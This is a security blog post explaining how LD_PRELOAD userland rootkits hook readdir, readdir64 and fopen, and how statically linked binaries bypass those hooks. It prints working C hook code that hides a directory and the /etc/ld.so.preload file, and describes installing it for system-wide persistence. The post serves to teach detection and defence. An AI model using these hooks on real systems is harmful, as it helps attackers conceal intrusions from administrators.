 ```yaml
---
title: "Bypassing LD_PRELOAD Rootkits Is Easy"
date: 2025-05-14T19:42:06-04:00
description: Learn how to bypass LD_PRELOAD rootkits.
categories: [Malware Bypass]
tags: [Rootkit]
author: 0xMatheuZ
---
```


![imgur](https://i.imgur.com/JhWCyVT.png)

## Introduction

In this post, I'm going to get into a really cool topic, which is how to bypass the hooks used by LD_PRELOAD rootkits, a technique that is effective against most, if not all, of them.

##  LD_PRELOAD

`LD_PRELOAD` is an environment variable used by dynamic linkers on Unix-like systems (such as /lib64/ld-linux-x86-64.so.2 on x86_64 Linux) to force specific shared libraries to be loaded before any others during program execution.

This technique allows you to "hook" functions from standard libraries, such as libc, without modifying the program binary, and is therefore widely used both for debugging and for offensive techniques such as user space rootkits.

When an ELF binary is executed, the dynamic linker resolves external function calls using structures like the Procedure Linkage Table (PLT) and Global Offset Table (GOT). By preloading a custom library via LD_PRELOAD, attackers can override functions like readdir() or fopen().

Example:

```bash
LD_PRELOAD=./rootkitresearchers.so ls
```

> /etc/ld.so.preload  

Besides the environment variable, the /etc/ld.so.preload file can also be used to persistently load a library into all processes on the system (including root). This file is read before any environment variable.

## Installing and Hiding Directory with Rootkit

To demonstrate this, I'll use a simple LD_PRELOAD rootkit that hooks the `readdir`, `readdir64`, and `fopen` functions to change the behavior of file and directory listings. The  code is shown below.

[Full source](https://github.com/MatheuZSecurity/Rootkit/blob/main/Ring3/hiding-directory/hide.c)

```c
struct dirent *(*orig_readdir)(DIR *dirp);
struct dirent *readdir(DIR *dirp)
{
    if (!orig_readdir)
        orig_readdir = dlsym(RTLD_NEXT, "readdir");

    struct dirent *entry;
    while ((entry = orig_readdir(dirp)) != NULL) {
        if (strcmp(entry->d_name, HIDDEN_DIR) != 0 && strcmp(entry->d_name, HIDDEN_FILE) != 0) {
            return entry;
        }
    }
    return NULL;
}
```

This snippet above hooks into the readdir function, which is responsible for listing files in a directory. It uses a pointer orig_readdir to store the address of the original function, retrieved with dlsym(RTLD_NEXT, "readdir"). Then, in a loop, it calls the original function to get each entry in the directory, but filters out (ignores) entries whose name is equal to "secret" or "ld.so.preload". Thus, these entries never appear to the program that called readdir. When there are no more visible entries, it returns NULL.

```c
struct dirent64 *(*orig_readdir64)(DIR *dirp);
struct dirent64 *readdir64(DIR *dirp)
{
    if (!orig_readdir64)
        orig_readdir64 = dlsym(RTLD_NEXT, "readdir64");

    struct dirent64 *entry;
    while ((entry = orig_readdir64(dirp)) != NULL) {
        if (strcmp(entry->d_name, HIDDEN_DIR) != 0 && strcmp(entry->d_name, HIDDEN_FILE) != 0) {
            return entry;
        }
    }
    return NULL;
}
```

This is the same logic but for the 64-bit version readdir64.

```c
FILE *(*orig_fopen)(const char *pathname, const char *mode);
FILE *fopen(const char *pathname, const char *mode)
{
    if (!orig_fopen)
        orig_fopen = dlsym(RTLD_NEXT, "fopen");

    if (strstr(pathname, HIDDEN_FILE) != NULL) {
        errno = ENOENT;
        return NULL;
    }

    return orig_fopen(pathname, mode);
}
```

This fopen hook hides access to specific files by returning a ‘file not found’ error (ENOENT) if the path contains keywords like ‘ld.so.preload’.

Now let's compile and load it into `/etc/ld.so.preload`

![imgur](https://i.imgur.com/9Id2UUt.png)

Once loaded, we can test creating a directory named `secret`, and see if it is hidden from ls.

![imgur](https://i.imgur.com/NAUR8Nl.png)

![imgur](https://i.imgur.com/inkluye.png)

As expected, it was hidden from ls.

## [Theory] Breaking LD_PRELOAD rootkits

Here’s something interesting: rootkits that use the LD_PRELOAD technique depend ENTIRELY on the Linux dynamic loader (ld-linux.so) to "inject" their malicious libraries before the standard system libraries, such as libc. But does this work with all programs? 

The short and quick answer is: No!

> Why does LD_PRELOAD work, and why does it sometimes not work?

LD_PRELOAD, as explained in previous topics, is an environment variable used by ld-linux.so to load extra libraries before others, which allows it to intercept functions from standard libraries (such as libc). In other words, you can replace system functions, such as those that list files or open files, with customized versions, which is perfect for hiding directories or files, for example.

But for this to work, the program has to use dynamic loading and depend on ld-linux.so to resolve these functions.

> Why do static binaries break this idea?

Statically linked binaries are "self-contained". They incorporate all necessary code from their dependencies (such as libc) directly into the executable. As a result, they do not invoke the dynamic linker at runtime, so LD_PRELOAD and /etc/ld.so.preload are ignored.

In other words, LD_PRELOAD and the /etc/ld.so.preload file are simply not used by these binaries. This means that rootkits based on these techniques have no effect on them, practically useless.

This is one of the most effective ways to bypass these rootkits.

## [Practice] Breaking LD_PRELOAD rootkits

With the rootkit loaded in /etc/ld.so.preload, the secret directory is hidden from commands like ls, which depend on libc and the dynamic loader. 

But it is easy to bypass this, for example: just compile a static binary, like a simple [getdents64.c](https://raw.githubusercontent.com/finallyjustice/sample/refs/heads/master/c/getdents64.c)

> gcc getdents64.c -o getdents64 --static

When using ldd getdents64, we will see that it does not load any dynamic dependencies, unlike ldd /bin/ls, which depends on libc. Since static binaries do not use the dynamic linker, LD_PRELOAD is completely ignored, and so is the rootkit.

![imgur](https://i.imgur.com/fv0N05S.png)

Bypassing LD_PRELOAD rootkits is simply very easy.

## Conclusion

LD_PRELOAD rootkits are actually very good at hiding artifacts in user space, especially because of their simplicity and the fact that they are more stable than LKM rootkits. However, as we have shown in this post, they are not infallible. Simple techniques, such as the use of static binaries, can easily bypass the hooks applied by the rootkit, precisely because they do not depend on the dynamic loader and the external libc.

If you enjoyed this content and want to discuss similar techniques, feel free to join our Discord community. See you next time!

> Rootkit Researchers

> https://discord.gg/66N5ZQppU7
